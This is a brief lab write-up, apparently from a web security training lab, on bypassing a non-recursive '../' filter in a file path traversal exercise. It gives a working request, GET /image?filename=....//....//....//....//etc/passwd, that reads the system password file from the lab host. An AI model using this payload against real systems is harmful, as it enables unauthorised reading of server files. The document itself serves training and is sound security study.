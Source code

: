 # Directory Traversal

## File path traversal, traversal sequences stripped non-recursively

`../` gets filtered so we trick the applaction by submitting a get request like 
this:

``` 
GET /image?filename=....//....//....//....//etc/passwd HTTP/2
Host: 0afc0083049fe2ff877f7f5400b400a1.web-security-academy.net
```

